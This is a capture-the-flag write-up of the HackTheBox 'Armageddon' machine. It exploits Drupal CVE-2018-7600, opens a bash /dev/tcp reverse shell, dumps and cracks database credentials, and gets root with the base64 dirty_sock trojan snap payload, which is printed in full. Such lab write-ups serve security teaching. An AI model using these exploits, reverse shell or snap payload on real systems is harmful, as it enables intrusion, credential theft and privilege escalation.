


# Armageddon - HackTheBox
Linux, 20 Base Points, Easy

## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22` and `80`.

***User***: We discovered the version of `Drupal` from the file `CHANGELOG.txt`, and by using a `Drupal` exploit, we obtained a remote code execution vulnerability. Additionally, we found the credentials for `brucetherealadmin` in the database and used them to log in to `SSH` and obtain the user flag.

***Root***: By executing the command `sudo -l`, we found that we have the ability to run `/usr/bin/snap install *` as the root user. We then found an exploit for `Snap` and used it to gain a root shell.


## Machine


 
## Armageddon Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $nmap -sC -sV -oA nmap/Armageddon 10.10.10.233
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-31 22:03 IDT
Nmap scan report for 10.10.10.233
Host is up (0.081s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.48 seconds

```

Observing port `80`, we see that the following web page is hosted:



[http://10.10.10.233/robots.txt](http://10.10.10.233/robots.txt) file contains the follow: 
```
...
# Files
Disallow: /CHANGELOG.txt
```

By viewing this file, http://10.10.10.233/CHANGELOG.txt, we can observe the following:
```
Drupal 7.56, 2017-06-21
-----------------------
- Fixed security issues (access bypass). See SA-CORE-2017-003.

Drupal 7.55, 2017-06-07
-----------------------
- Fixed incompatibility with PHP versions 7.0.19 and 7.1.5 due to duplicate
  DATE_RFC7231 definition.
- Made Drupal core pass all automated tests on PHP 7.1.
- Allowed services such as Let's Encrypt to work with Drupal on Apache, by
  making Drupal's .htaccess file allow access to the .well-known directory
  defined by RFC 5785.
- Made new Drupal sites work correctly on Apache 2.4 when the mod_access_compat
  Apache module is disabled.
- Fixed Drupal's URL-generating functions to always encode '[' and ']' so that
  the URLs will pass HTML5 validation.
- Various additional bug fixes.
- Various API documentation improvements.
- Additional automated test coverage.
....
```

This information suggests that the system is running `Drupal 7.56`, with a release date of `June 21, 2017`.

An exploit for this version of `Drupal`, located at https://github.com/pimps/CVE-2018-7600, may be used to target the system. Let's try it:

```console
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $ python3 drupa7-CVE-2018-7600.py http://10.10.10.233

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-0Rw1i6zpEE6QsRaQ3-L6ew1BDRNw10uetXpDwq8coxQ
[*] Triggering exploit to execute: id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

```

We have achieved Remote Code Execution (RCE).

To obtain a reverse shell, we can first listen on port `53` and then execute the necessary command to establish the connection:
```console
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $nc -lvp 53
listening on [any] 53 ...

```

After setting up a listener on port `53`, we can use the following command to run the reverse shell:
`bash -i >& /dev/tcp/10.10.14.14/53 0>&1`.

This command will redirect input and output from the command prompt to a TCP socket that connects to IP address `10.10.14.14` on port `53`, thereby establishing a reverse shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $ python3 drupa7-CVE-2018-7600.py http://10.10.10.233 -c "bash -i >& /dev/tcp/10.10.14.23/53 0>&1"

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-oWaticTgF9kHnybD0nikPOKvGzrqGpEGc3GjVkojkpE
[*] Triggering exploit to execute: bash -i >& /dev/tcp/10.10.14.23/53 0>&1

```

And we get shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $nc -lvp 53
listening on [any] 53 ...
10.10.10.233: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.233] 34424
bash: no job control in this shell
bash-4.2$ whoami
whoami
apache
bash-4.2$ 

```

By running the command `grep -r "password" .`, we are searching recursively through the current directory for any files that contain the string `"password"`.

This command might have returned the file `./sites/default/settings.php` which contains the following database password:
```php
...
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);

```

Now that we have obtained the database password from the settings file, we can use it to connect to the database and view its contents:
```console
bash-4.2$ mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "show databases;"
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "show databases;"
Database
information_schema
drupal
mysql
performance_schema
bash-4.2$ mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; show tables;"
<er -pCQHEy@9M*m23gBVj -e "use drupal; show tables;"                         
Tables_in_drupal
actions
authmap
batch
block
block_custom
block_node_type
block_role
blocked_ips
cache
cache_block
cache_bootstrap
cache_field
cache_filter
cache_form
cache_image
cache_menu
cache_page
cache_path
comment
date_format_locale
date_format_type
date_formats
field_config
field_config_instance
field_data_body
field_data_comment_body
field_data_field_image
field_data_field_tags
field_revision_body
field_revision_comment_body
field_revision_field_image
field_revision_field_tags
file_managed
file_usage
filter
filter_format
flood
history
image_effects
image_styles
menu_custom
menu_links
menu_router
node
node_access
node_comment_statistics
node_revision
node_type
queue
rdf_mapping
registry
registry_file
role
role_permission
search_dataset
search_index
search_node_links
search_total
semaphore
sequences
sessions
shortcut_set
shortcut_set_users
system
taxonomy_index
taxonomy_term_data
taxonomy_term_hierarchy
taxonomy_vocabulary
url_alias
users
users_roles
variable
watchdog

```

Let's try to look at `users` table:
```console
bash-4.2$ mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; select * from users"
uid	name	pass	mail	theme	signature	signature_format	created	access	login	status	timezone	language	picture	init	data
0						NULL	0	0	0	0	NULL		0		NULL
1	brucetherealadmin	$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt	admin@armageddon.eu			filtered_html	1606998756	1607077194	1607076276	1Europe/London		0	admin@armageddon.eu	a:1:{s:7:"overlay";i:1;}

```

We have found the hashed password of the user `brucetherealadmin` in the `users` table of the `drupal` database, which is `$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`.
One way to attempt to crack this password is by using a `john` and a wordlist [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt):

```console
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $john --wordlist=~/Desktop/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
booboo           (?)
1g 0:00:00:00 DONE (2021-03-31 23:08) 3.333g/s 800.0p/s 800.0c/s 800.0C/s tiffany..chris
Use the "--show" option to display all of the cracked passwords reliably
Session completed
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $john --show hash
?:booboo
```

We discovered the password for the user `brucetherealadmin:booboo`. Let's attempt to log in using `ssh`:
```console
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $ ssh brucetherealadmin@10.10.10.233
brucetherealadmin@10.10.10.233's password: 
Last failed login: Wed Mar 31 20:53:09 BST 2021 from 10.10.14.23 on ssh:notty
There were 471 failed login attempts since the last successful login.
Last login: Wed Mar 31 18:16:56 2021 from 10.10.14.8
[brucetherealadmin@armageddon ~]$ cat user.txt 
29050209113229d46a79ccacb1c9e479
[brucetherealadmin@armageddon ~]$
```

And we get the user flag ```29050209113229d46a79ccacb1c9e479```.

### Root

By executing the command `sudo -l`, we discovered the following information:
```console
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset,
    env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2
    QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION
    LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
[brucetherealadmin@armageddon ~]$
```

Snap is an attempt to simplify the process of packaging applications on Linux systems, and as a result, new competing standards are emerging.

It is possible to find exploits for Snap, such as the one described in this article: https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html.

The payload for this exploit can be obtained from the following link: https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py:

```python
TROJAN_SNAP = ('''
aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'''
               + 'A' * 4256 + '==')
```

Let's create a file using that:
```console
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $cat exp_create.py
TROJAN_SNAP = ('''
aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'''
               + 'A' * 4256 + '==')

print(TROJAN_SNAP)
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $ python3 exp_create.py | base64 -d > exploit.snap
```

Let's transfer the file to the target machine and execute the following command to run it:
```console
[brucetherealadmin@armageddon tmp]$ sudo /usr/bin/snap install exploit.snap
error: cannot find signatures with metadata for snap "exploit.snap"
```

To resolve the error mentioned, we need to include the `--devmode` flag:
```console
[brucetherealadmin@armageddon tmp]$ sudo /usr/bin/snap install --devmode exploit.snap
dirty-sock 0.1 installed
[brucetherealadmin@armageddon tmp]$ ls /home
brucetherealadmin  dirty_sock
```

Now that we have created a new user. According to the article, the password for the user `dirty_sock` is `dirty_sock`. Let's attempt to switch to this user using the su command:
```console
[brucetherealadmin@armageddon tmp]$ su dirty_sock
Password: 
[dirty_sock@armageddon tmp]$ sudo cat /root/root.txt
[sudo] password for dirty_sock: 
31c261463ea41b73b3c2f9e3f60fdaf
```

And we get the root flag ```31c261463ea41b73b3c2f9e3f60fdaf```.